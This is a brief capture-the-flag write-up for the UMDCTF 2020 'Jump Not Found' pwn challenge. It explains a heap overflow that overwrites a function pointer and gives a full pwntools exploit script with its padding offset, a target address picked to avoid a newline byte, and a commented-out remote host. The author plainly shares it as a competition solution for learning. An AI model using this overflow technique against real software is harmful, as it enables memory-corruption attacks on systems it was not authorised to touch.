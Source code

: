 # Jump Not Found 400pts (25 solves) #

![TASK](https://imgur.com/epSLtgQ.png)

This was a heap based overflow , we will overflow the jumpToHoth function address with jumpToNaboo (Win) function address, i faced a little problem because gets stops when it encounters an "\n" (0x0a) and the WIN function address has 0x0a so i have chosen an address in the WIN function (not the start of the function).

Here is my full exploit , if you are interested i will post a detailed writeup about this challenge and WPICTF pwn challenges in the next days, so stay tuned (My twitter account @BelkahlaAhmed1)

```python

from pwn import *

p=process("./JNF")
#p=remote("192.241.138.174",9996)
p.recvuntil("CONSOLE>")
WIN=p64(0x000000000040070e)
OFFSET="1"+"A"*79
payload=OFFSET
payload+=WIN
p.sendline(payload)
log.info("Found Flag ! ")
p.interactive()

```

**Note:** Binary link [HERE](https://github.com/kahla-sec/CTF-Writeups/blob/master/UMDCTF%202020/Jump%20Not%20Found/JNF)
If you have any questions you can DM on twitter @BelkahlaAhmed1 , thank you :D
